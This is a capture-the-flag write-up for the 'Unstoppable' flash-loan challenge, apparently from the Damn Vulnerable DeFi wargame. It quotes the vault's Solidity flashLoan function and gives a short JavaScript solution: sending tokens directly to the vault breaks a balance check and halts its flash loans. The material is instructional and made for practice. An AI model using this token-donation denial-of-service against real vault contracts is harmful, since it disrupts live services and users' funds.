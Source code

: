 ## Solutions

### 1. Unstoppable

This challenge has a straightforward objective: prevent the vault from providing free flash loans. Upon examining the flash loan execution code, one of the `if` checks appears suspect. To exploit this, we can transfer our DVT tokens to the vault, effectively causing this check to fail, which serves as our solution.

```sol
    /**
     * @inheritdoc IERC3156FlashLender
     */
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address _token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (amount == 0) revert InvalidAmount(0);
        if (address(asset) != _token) revert UnsupportedCurrency();
        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // <= SUSPICIOUS LINE.
        uint256 fee = flashFee(_token, amount);
        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);
        // callback must return magic value, otherwise assume it failed
        if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))
            revert CallbackFailed();
        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);
        return true;
    }
```

To provide greater clarity, especially since this is the first challenge, I will also include the JavaScript solution code in this post.

```js
    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
    });

    it('Execution', async function () {
    	/** CODE YOUR SOLUTION HERE */
        const tokenConnectedToPlayer = token.connect(player);
        await tokenConnectedToPlayer.transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */
    });
```
